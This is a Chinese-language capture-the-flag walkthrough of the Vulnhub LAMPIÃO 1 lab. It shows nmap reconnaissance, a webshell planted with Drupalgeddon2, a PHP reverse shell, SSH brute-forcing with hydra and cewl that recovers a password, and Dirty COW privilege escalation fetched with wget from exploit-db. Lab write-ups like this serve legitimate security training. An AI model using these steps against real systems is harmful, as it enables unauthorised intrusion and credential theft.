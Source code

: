 ```yaml
---

title: Vulnhub	249 LAMPIÃO 1
date: 2018-07-28
---
```


考点：drupal,hydra,暴力破解,dirtyc0w

靶机链接：<https://www.vulnhub.com/entry/lampiao-1,249/>
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| LAMPIÃO    | 10.0.2.9  |

## 初步打点

### 端口扫描

```bash
$ sudo arp-scan  -l           
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
10.0.2.9        08:00:27:58:66:90       PCS Systemtechnik GmbH
$ export tip=10.0.2.9         
$ sudo nmap -v -A -p- $tip    
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 46:b1:99:60:7d:81:69:3c:ae:1f:c7:ff:c3:66:e3:10 (DSA)
|   2048 f3:e8:88:f2:2d:d0:b2:54:0b:9c:ad:61:33:59:55:93 (RSA)
|   256 ce:63:2a:f7:53:6e:46:e2:ae:81:e3:ff:b7:16:f4:52 (ECDSA)
|_  256 c6:55:ca:07:37:65:e3:06:c1:d6:5b:77:dc:23:df:cc (ED25519)
80/tcp   open  http?
| fingerprint-strings: 
|   NULL: 
|     _____ _ _ 
|     |_|/ ___ ___ __ _ ___ _ _ 
|     \x20| __/ (_| __ \x20|_| |_ 
|     ___/ __| |___/ ___|__,_|___/__, ( ) 
|     |___/ 
|     ______ _ _ _ 
|     ___(_) | | | |
|     \x20/ _` | / _ / _` | | | |/ _` | |
|_    __,_|__,_|_| |_|
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Lampi\xC3\xA3o
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

### WEB测试

看来要在80和1898端口突破

80扫一下就挂了

1898端口打开是个Web应用，页脚显示drupal

使用`whatweb`探测一下drupa版本

```bash
$ whatweb  http://10.0.2.9:1898
http://10.0.2.9:1898 [200 OK] Apache[2.4.7], Content-Language[en], Country[RESERVED][ZZ], Drupal, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.0.2.9], JQuery, MetaGenerator[Drupal 7 (http://drupal.org)], PHP[5.5.9-1ubuntu4.24], PasswordField[pass], Script[text/javascript], Title[Lampião], UncommonHeaders[x-content-type-options,x-generator], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/5.5.9-1ubuntu4.24]

```

大概率是Drupal 7

### 漏洞发现

试试[Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)

运行报错
```ruby
<internal:/usr/lib/ruby/vendor_ruby/rubygems/core_ext/kernel_require.rb>:85:in `require': cannot load such file -- highline/import (LoadError)
```

google查询安装`highline`即可

```bash
$ sudo gem install highline
```

运行后显示`drupalgeddon2.rb` 已写入webshell

![1](https://static.iihack.com/vulnhub/249/1.PNG)



## 获得权限

### 靶机测试

#### 思路一 Drupalgeddon2

通过[Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)获得的webshell执行`id`

![2](https://static.iihack.com/vulnhub/249/2.PNG)

下载php-reverse-shell.php 访问，获得反弹shell

![3](https://static.iihack.com/vulnhub/249/3.PNG)

#### 思路二 暴力破解

##### 用户名

查看两个内容页面，对应用户名是 `tiago`和`Eder`作为用户名字典

```bash
$ cat user
tiago
eder
```

##### 密码

使用cewl获取个字典文件作为密码字典

```bash
$ cewl -w 1.txt http://10.0.2.9:1898/
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)                
```

##### hydra

使用[hydra](https://www.iihack.com/pages/tools/hydra.html)爆破ssh
```bash
$ hydra -L user -P 1.txt 10.0.2.9 ssh
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1688 login tries (l:2/p:844), ~106 tries per task
[DATA] attacking ssh://10.0.2.9:22/
[22][ssh] host: 10.0.2.9   login: tiago   password: Virgulino
```

获得tiago的密码

![4](https://static.iihack.com/vulnhub/249/4.PNG)

ssh登陆成功

![5](https://static.iihack.com/vulnhub/249/5.PNG)

## 提权

[linpeas.sh](https://www.iihack.com/pages/tools/linpeas.sh.html)跑了遍，打算使用脏牛提权，运行成功后管理员密码被修改为`dirtyCowFun`

```bash
$ wget https://www.exploit-db.com/download/40847 -O 40847.c
$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.c -lutil
$ ./dcow
```

![6](https://static.iihack.com/vulnhub/249/6.PNG)
